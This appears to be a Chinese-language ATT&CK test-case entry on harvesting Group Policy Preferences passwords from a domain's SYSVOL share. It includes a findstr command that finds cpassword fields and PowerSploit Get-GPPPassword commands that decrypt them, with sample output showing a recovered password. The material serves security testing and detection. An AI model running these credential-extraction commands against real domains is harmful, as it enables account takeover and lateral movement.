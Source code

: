 # T1552.006-Win-基于GPP凭证获取

## 描述

攻击者可能通过访问域控制器SYSVOL共享中的组策略首选项（GPP）XML文件，获取不安全的凭据。GPP允许管理员使用嵌入式凭据创建域策略，例如设置本地账户、映射驱动器或配置服务。这些凭据存储在SYSVOL的XML文件中（如`Groups.xml`、`Services.xml`），以AES加密，但由于Microsoft公开的AES密钥，任何域用户可解密`cpassword`字段，获取明文密码。

SYSVOL是域内全域共享的目录（`\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`），所有经过身份验证的域用户具有读权限。攻击者可通过枚举XML文件，提取并解密凭据，用于特权提升、横向移动或持久化。此攻击无需提权，隐蔽性高。

## 测试案例

### 测试案例1：使用findstr枚举SYSVOL中的XML文件
通过命令行搜索SYSVOL共享中的XML文件，查找包含`cpassword`的凭据。

**命令**：
```cmd
findstr /S /I cpassword \\test.com\sysvol\test.com\policies\*.xml
```

- **示例输出**：
  ```
  \\test.com\sysvol\test.com\policies\{0EA52652-3A0D-4135-8BD7-92EFF59CB765}\Machine\Preferences\Groups\Groups.xml:<Properties action="C" userName="tester" cpassword="WzC8r0KH+edYsh0heQvAVwcNxtSvX1efu9MU+z5e37E" ... />
  ```

- **说明**：
  - 搜索`cpassword`字段，定位包含凭据的XML文件。
- **权限**：域用户权限。
- **支持系统**：WindowsServer2003及以上（ActiveDirectory环境）。

### 测试案例2：使用Get-GPPPassword提取凭据
通过PowerSploit的`Get-GPPPassword`脚本自动化提取并解密GPP密码。

**命令**：
```powershell
Import-Module Get-GPPPassword.ps1
Get-GPPPassword
```

- **示例输出**：
  ```
  Username: tester
  Password: Password123
  Changed: 2019-05-20 06:34:56
  File: \\test.com\sysvol\test.com\policies\{0EA52652-3A0D-4135-8BD7-92EFF59CB765}\Machine\Preferences\Groups\Groups.xml
  ```

- **说明**：
  - 自动扫描SYSVOL，解密`cpassword`字段。
- **权限**：域用户权限。

